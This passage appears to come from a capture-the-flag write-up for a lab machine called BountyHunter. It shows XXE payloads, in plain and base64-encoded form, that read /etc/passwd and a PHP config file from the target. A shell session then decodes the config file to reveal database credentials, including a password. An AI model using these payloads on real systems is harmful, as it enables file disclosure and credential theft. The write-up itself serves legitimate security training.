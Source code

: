 So here's the payload which I used to do it.
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>CWE-434</cwe>
		<cvss>9</cvss>
		<reward>100</reward>
		</bugreport>
```

here's the final encoded payload

```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KIDwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPiBdPgoJCTxidWdyZXBvcnQ%2BCgkJPHRpdGxlPiZ4eGU7PC90aXRsZT4KCQk8Y3dlPkNXRS00MzQ8L2N3ZT4KCQk8Y3Zzcz45PC9jdnNzPgoJCTxyZXdhcmQ%2BMTAwPC9yZXdhcmQ%2BCgkJPC9idWdyZXBvcnQ%2B
```
![](/assets/bountyhunter/images/Pasted image 20210827130259.png)

here we got the requested file (**/etc/passwd**).
![](/assets/bountyhunter/images/Pasted image 20210827130455.png)

while enumerating the site I previously found a file named **db.php**, let's get that.

Payload
```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>CWE-434</cwe>
		<cvss>9</cvss>
		<reward>100</reward>
		</bugreport>
```

Encoded Payload
```
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KIDwhRE9DVFlQRSBmb28gWyA8IUVOVElUWSB4eGUgU1lTVEVNICJwaHA6Ly9maWx0ZXIvY29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWRiLnBocCI%2BIF0%2BCgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2BJnh4ZTs8L3RpdGxlPgoJCTxjd2U%2BQ1dFLTQzNDwvY3dlPgoJCTxjdnNzPjk8L2N2c3M%2BCgkJPHJld2FyZD4xMDA8L3Jld2FyZD4KCQk8L2J1Z3JlcG9ydD4%3D
```

Now let's forward the request with our payload injected.
![](/assets/bountyhunter/images/Pasted image 20210827130954.png)

and here we got the data of the file.
![](/assets/bountyhunter/images/Pasted image 20210827131050.png)
```shell-session
[elliot@archlinux] bountyhunter git:(main) ✗$ vim db_encoded.php
[elliot@archlinux] bountyhunter git:(main) ✗$ cat db_encoded.php | base64 -d | tee db_decoded.php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
[elliot@archlinux] bountyhunter git:(main) ✗$
```
